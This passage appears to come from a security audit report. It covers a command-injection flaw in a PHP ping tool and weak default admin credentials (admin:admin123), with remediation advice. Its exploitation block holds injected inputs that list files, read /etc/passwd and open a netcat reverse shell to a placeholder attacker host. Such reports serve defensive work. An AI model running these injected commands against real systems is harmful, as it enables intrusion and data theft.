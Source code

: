 **Exploitation:**
```bash
# List files
127.0.0.1; ls -la

# Read sensitive files
127.0.0.1; cat /etc/passwd

# Reverse shell
127.0.0.1; nc attacker-ip 4444 -e /bin/bash
```

**Remediation:**

**Immediate:**
- Disable ping utility temporarily
- Review all exec/system calls in codebase

**Proper Fix:**
```php
// Validate input (whitelist)
if (!filter_var($ip, FILTER_VALIDATE_IP)) {
    die("Invalid IP");
}

// Use escapeshellarg()
$safe_ip = escapeshellarg($ip);
$output = shell_exec("ping -c 4 $safe_ip");

// Better: Use PHP sockets instead of shell commands
```

---

## ⚠️ High Severity Findings

### [V003] Weak Default Credentials

**Severity:** High  
**CVSS Score:** 8.1  
**CWE:** CWE-521 (Weak Password Requirements)

**Description:**
Admin account uses default credentials: `admin:admin123`

**Proof of Concept:**
- Attempted common credentials
- Success with admin:admin123
- Hydra brute-force: cracked in 12 seconds

**Impact:**
- Unauthorized admin access
- Full application control

**Remediation:**
1. Force password change on first login
2. Implement password policy:
   - Minimum 12 characters
   - Complexity requirements
   - No common passwords
3. Enable 2FA for admin accounts

---